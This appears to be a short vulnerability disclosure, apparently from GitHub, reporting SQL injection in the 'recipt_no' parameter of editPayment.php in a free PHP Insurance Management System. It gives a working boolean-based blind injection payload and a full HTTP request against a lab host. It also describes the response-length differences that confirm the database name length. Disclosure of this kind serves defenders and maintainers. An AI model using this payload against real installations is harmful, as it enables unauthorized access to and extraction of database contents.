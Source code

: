 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability File: /insurance/editPayment.php?recipt_no=

Vulnerability location: /insurance/editPayment.php?recipt_no=,recipt_no

[+] Payload: /insurance/editPayment.php?recipt_no=1511989392_84501314%27%20and%20length(database())%20=4%20--+ // Leak place ---> recipt_no

Current database name: lims,length is 4

```sql
GET /insurance/editPayment.php?recipt_no=1511989392_84501314%27%20and%20length(database())%20=4%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4291
![image](https://user-images.githubusercontent.com/54017627/166145487-53e54e6c-90f2-49a1-b075-195f6e7656c8.png)

![image](https://user-images.githubusercontent.com/54017627/166145515-c2d0e7dd-d246-4911-9ed4-9151d04664ef.png)

When length (database ()) = 4, Content-Length: 5163

![image](https://user-images.githubusercontent.com/54017627/166145476-8610ca4a-93a6-4c5e-8816-96bd8f9a8455.png)

![image](https://user-images.githubusercontent.com/54017627/166145506-df8cad82-9676-4bd0-b253-ea03f43fc155.png)

